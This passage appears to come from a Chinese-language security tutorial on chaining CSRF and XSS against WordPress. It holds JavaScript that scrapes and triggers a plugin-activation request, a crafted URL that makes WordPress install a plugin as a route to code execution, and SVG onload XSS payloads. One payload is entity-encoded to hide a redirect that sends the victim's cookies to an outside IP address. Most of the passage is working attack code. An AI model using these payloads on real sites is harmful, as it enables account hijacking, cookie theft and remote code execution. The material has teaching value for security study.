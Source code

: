 ```
b.send(ss);

// 开启插件
b.onreadystatechange = function(){
	if (this.readyState == 4) {
		// 解开启插件的请求回来
		c = new XMLHttpRequest();
		c.open('GET', url+'wp-admin/plugins.php', 0);
		c.send();

		sss = /(data-plugin="hello.php)[\w\s"\'<>=\-选择你好多莉\/[\].?&;]+/.exec(c.responseText);
		sss = /plugins.php([\w.?=&;]+)/.exec(sss)[0];
		sss = sss.replace(/&amp;/gi, '&')
		
		// 开启插件
		d = new XMLHttpRequest();
		d.open('GET', url+'wp-admin/'+sss, 0);
		d.send();

		// 跳回首页
		setTimeout('location.href='+url+'wp-admin/',2000);
   }
}
```

[![image.png-39.8kB](http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png)](http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png)

[![image.png-25.1kB](http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png)](http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png)

事实上，由于wordpress的特殊性，我们可以通过xss来请求安装插件来简化上面的攻击链，简化整个流程，当我们访问：

```
http://wordpress.site/wp-admin/update.php?action=install-plugin&updraftplus_noautobackup=1&plugin=wp-crontrol&_wpnonce=391ece6c0f
```

wp就会自动安装插件，如果我们将包含恶意代码的模块上传到插件库中，通过上述请求自动安装插件，再启用插件，那么一样可以完整整个攻击。

由以上拓展CSRF+XSS-RCE

参考：[wordpress5.1 csrf to rce](https://www.anquanke.com/post/id/173591)

### 6.XSS+CSRF读取源码（ssrf）

原始payload样板为

```
<svg/onload="javascript:alert(1)">
<svg/onload=alert(1)>
```

实体编码下其中一个

```
<svg/onload="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x2E;&#x68;&#x72;&#x65;&#x66;&#x3D;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x32;&#x33;&#x2E;&#x32;&#x30;&#x37;&#x2E;&#x31;&#x34;&#x2E;&#x34;&#x35;&#x3A;&#x37;&#x37;&#x37;&#x37;&#x3F;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x3D;&#x27;&#x2B;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x29;">
```
